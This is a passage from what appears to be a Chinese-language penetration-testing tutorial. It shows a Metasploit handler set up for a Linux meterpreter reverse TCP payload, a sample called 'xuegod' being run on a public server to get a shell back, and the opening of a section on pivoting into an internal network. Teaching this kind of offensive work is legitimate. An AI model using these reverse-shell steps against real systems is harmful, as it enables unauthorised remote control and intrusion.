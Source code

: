 ```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.111.132
LHOST => 192.168.111.132
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.111.132:4444


```



公网服务器运行样本xuegod

```
[root@VM-0-10-centos home]# chmod +x xuegod
[root@VM-0-10-centos home]# ./xuegod
```



成功拿到公网服务器shell

![image-20211012190238149](/assets/image-20211012190238149.png)



## 2.2 使用MSF自带代理功能实现内网渗透
